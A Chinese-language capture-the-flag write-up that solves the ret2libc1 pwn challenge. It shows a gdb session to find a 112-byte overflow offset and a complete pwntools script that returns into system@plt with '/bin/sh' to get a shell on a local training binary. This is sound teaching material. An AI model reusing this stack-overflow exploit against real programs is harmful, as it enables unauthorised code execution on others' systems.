 > 示例：[https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2libc/ret2libc1](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2libc/ret2libc1)
>
> 参考资料：[https://wiki.x10sec.org/pwn/stackoverflow/basic_rop/#ret2libc](https://wiki.x10sec.org/pwn/stackoverflow/basic_rop/#ret2libc)
>
> [https://www.freebuf.com/news/182894.html](https://www.freebuf.com/news/182894.html)
>

下载下来，检查一下文件保护：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596611829182-437321d9-af9c-477f-b990-f07b54d7439d.png)

32位程序，开启了NX保护，将文件扔到IDA里：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596611896804-96fc681f-46eb-4b6d-a47c-740c6ea838ef.png)

发现易引起栈溢出的函数，gets，测算栈长度，不再细说，日志如下：

```powershell
root@kali:~/桌面/CTF# cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
root@kali:~/桌面/CTF# gdb ret2libc1
GNU gdb (Debian 8.2.1-2) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ret2libc1...done.
gdb-peda$ run
Starting program: /root/桌面/CTF/ret2libc1 
RET2LIBC >_<
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0xf7fac5c0 --> 0xfbad2288 
EDX: 0xf7fad89c --> 0x0 
ESI: 0xf7fac000 --> 0x1d9d6c 
EDI: 0xf7fac000 --> 0x1d9d6c 
EBP: 0x62616163 ('caab')
ESP: 0xffffd280 ("eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
EIP: 0x62616164 ('daab')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x62616164
[------------------------------------stack-------------------------------------]
0000| 0xffffd280 ("eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0004| 0xffffd284 ("faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0008| 0xffffd288 ("gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0012| 0xffffd28c ("haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0016| 0xffffd290 ("iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0020| 0xffffd294 ("jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0024| 0xffffd298 ("kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0028| 0xffffd29c ("laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x62616164 in ?? ()
gdb-peda$ 
[1]+  已停止               gdb ret2libc1
root@kali:~/桌面/CTF# cyclic -l 0x62616164
112
root@kali:~/桌面/CTF# 
```

变量s的栈长度为112

利用工具 ropgadget可以查看是否有 /bin/sh 存在

```powershell
ROPgadget --binary ret2libc1 --string '/bin/sh' 
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596612181039-3974c2e4-3e0d-4d00-979d-8d8a32f4637e.png)

当然也可以在IDA里查看

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596612253740-02a51e82-a2a7-4816-9b84-699a132a496c.png)

查找一下是否有 system 函数存在，在secure函数中我们可以找到它

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596612346117-67069f4f-2a20-4a8e-834e-1611a0b511c9.png)

该函数调用了 system() 函数，在程序链接时会为 system() 生成 plt 和 got 项。第一次调用函数时，会把函数真实的地址写入got表中，所以我们可以直接覆盖函数返回地址使其调用 system()@plt 模拟 system() 函数真实调用。IDA 中找到 system@plt 的地址![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596612346117-67069f4f-2a20-4a8e-834e-1611a0b511c9.png)

那么，我们直接返回该处，即执行 system 函数。相应的 payload 如下

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

这里我们需要注意函数调用栈的结构，如果是正常调用 system 函数，**<font style="color:#F5222D;">我们调用的时候会有一个对应的返回地址，这里以 'bbbb' 作为虚假的地址，其后参数对应的参数内容</font>**。

这个例子相对来说简单，同时提供了 system 地址与 /bin/sh 的地址，但是大多数程序并不会有这么好的情况。

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596612872306-55decf06-fbfa-4f42-8741-51584913d7df.png)

getshell

